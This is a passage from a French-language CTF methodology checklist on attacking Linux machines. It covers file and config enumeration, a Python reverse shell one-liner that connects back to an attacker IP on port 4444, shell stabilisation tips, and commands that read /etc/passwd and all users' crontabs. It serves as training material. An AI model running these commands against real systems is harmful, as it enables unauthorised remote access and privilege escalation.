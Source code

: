   ```bash
  # Rechercher des fichiers de configuration intéressants
  find / -name "*.conf" -o -name "*.config" -o -name "*.ini" 2>/dev/null
  
  # Vérifier les fichiers récemment modifiés
  find / -type f -mtime -7 2>/dev/null
  ```
  
  > *Question*: Y a-t-il des applications personnalisées ou des services non standards installés dans des répertoires comme /opt ou /srv?

- [ ] **Exploitation spécifique à Linux**
  
  Les machines Linux dans les CTF présentent souvent des vulnérabilités liées à des applications web personnalisées, des services mal configurés ou des binaires avec des permissions incorrectes. Contrairement aux environnements Windows, l'exploitation sur Linux repose souvent sur l'abus de permissions de fichiers, de variables d'environnement ou de binaires SUID.
  
  Les shells Linux sont généralement plus faciles à obtenir et à maintenir que sur Windows. Privilégiez les reverse shells en Python, Bash ou Perl selon ce qui est disponible sur le système cible. N'oubliez pas de stabiliser votre shell avec `python -c 'import pty; pty.spawn("/bin/bash")'` suivi de `stty raw -echo; fg` pour obtenir un shell pleinement interactif.
  
  ```bash
  # Exemple de reverse shell Python
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.X",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
  ```
  
  > *Question*: Quels interpréteurs sont disponibles sur le système pour créer un reverse shell (Python, Perl, Ruby, etc.)?

- [ ] **Post-exploitation spécifique à Linux**
  
  L'élévation de privilèges sur Linux dans les CTF suit généralement des schémas prévisibles. Commencez toujours par les vecteurs classiques: binaires SUID, tâches cron, sudo mal configuré, et capabilities. Utilisez systématiquement LinPEAS pour automatiser cette recherche.
  
  Les CTF Linux comportent souvent des indices dans les fichiers de l'utilisateur courant. Examinez toujours `.bash_history`, les fichiers dans `/home/user/` et les fichiers cachés (commençant par un point). Les développeurs laissent souvent des sauvegardes, des scripts ou des notes qui contiennent des informations cruciales.
  
  ```bash
  # Vérifier les fichiers cachés
  find /home -type f -name ".*" 2>/dev/null
  
  # Vérifier les tâches cron de tous les utilisateurs
  for user in $(cut -f1 -d: /etc/passwd); do echo $user; crontab -u $user -l 2>/dev/null; done
  ```
  
  > *Question*: Y a-t-il des scripts personnalisés créés par les utilisateurs qui s'exécutent avec des privilèges élevés?

### Spécificités pour les machines Windows
